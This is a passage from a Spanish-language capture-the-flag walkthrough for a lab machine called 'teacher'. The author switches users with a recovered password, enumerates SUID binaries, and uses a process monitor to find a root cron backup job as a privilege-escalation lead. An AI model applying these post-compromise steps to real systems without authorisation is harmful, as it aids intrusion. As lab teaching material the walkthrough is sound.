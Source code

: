 Podríamos utilizar la contraseña para migrar al usuario `giovanni`:

```bash
www-data@teacher:/var/www/html/moodle$ su giovanni
Password: 
giovanni@teacher:/var/www/html/moodle$ whoami
giovanni
giovanni@teacher:/var/www/html/moodle$
```

Ahora si ya podemos visualizar la flag (user.txt) y nos queda escalar privilegios.

```bash
giovanni@teacher:~$ id
uid=1000(giovanni) gid=1000(giovanni) groups=1000(giovanni)
giovanni@teacher:~$ sudo -l
bash: sudo: command not found
giovanni@teacher:~$ cd /
giovanni@teacher:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/su
./bin/fusermount
./bin/umount
./bin/mount
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/passwd
giovanni@teacher:/$ 
```

Vamos a checar si existen tareas que se estén ejecutando en el sistema a intervalos regulares y vamos a utilizar nuestro archivo [ProcMon](/procmon):

```bash
giovanni@teacher:/$ cd /dev/shm
giovanni@teacher:/dev/shm$ touch procmon.sh
giovanni@teacher:/dev/shm$ chmod +x procmon.sh 
giovanni@teacher:/dev/shm$ 
```

Lo ejecutamos y esperamos un rato:

```bash
giovanni@teacher:/dev/shm$ ./procmon.sh 
> /usr/sbin/cron -f
> /usr/sbin/CRON -f
> /bin/sh -c /usr/bin/backup.sh
> /bin/bash /usr/bin/backup.sh
> tar -czvf tmp/backup_courses.tar.gz courses/algebra
< /usr/sbin/cron -f
> /bin/sh -c gzip
< /usr/sbin/CRON -f
< /bin/sh -c /usr/bin/backup.sh
< /bin/bash /usr/bin/backup.sh
< tar -czvf tmp/backup_courses.tar.gz courses/algebra
< /bin/sh -c gzip

```
